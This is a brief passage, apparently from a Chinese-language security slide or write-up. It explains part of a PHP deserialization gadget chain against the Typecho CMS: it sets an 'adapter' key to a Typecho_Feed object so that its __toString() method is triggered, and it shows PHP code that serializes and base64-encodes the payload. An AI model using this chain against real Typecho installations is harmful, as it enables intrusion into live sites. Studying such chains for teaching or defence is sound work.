

array中key为”adpter”的值应该是什么呢？
考虑攻击链中，期望触发Typecho_Feed的__toString()方法
 public function __toString(){
        $this->item['author']->screenName;
    }
因此，key为“adapter”的value应该为Typecho_Feed对象

| $exp = array( 'adapter' => new Typecho\_Feed() ); echo base64\_encode(serialize($exp)); ?> |
| --- |